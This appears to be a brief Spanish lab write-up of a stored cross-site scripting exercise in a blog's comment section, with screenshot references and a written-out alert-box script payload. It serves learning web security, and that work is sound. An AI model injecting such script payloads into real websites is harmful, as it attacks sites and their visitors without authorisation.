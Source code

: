 # Stored XSS into HTML context with nothing encoded 👨‍💻
<p align="center">
    <img src="/assets/XSS/02-Second
/01-Description.PNG">
</p>
La vulnerabilidad se encuentra en **la sección de comentarios de los posts** 
<p align="center">
    <img src="/assets/XSS/02-Second/02-Script.PNG">
</p>

**Script XSS**
```js
<script>alert("Pwned!");</script>
```

Una vez ejecutamos la búsqueda con el anterior script obtenemos el siguiente resultado:
<p align="center">
    <img src="/assets/XSS/02-Second/03-Result.PNG">
</p>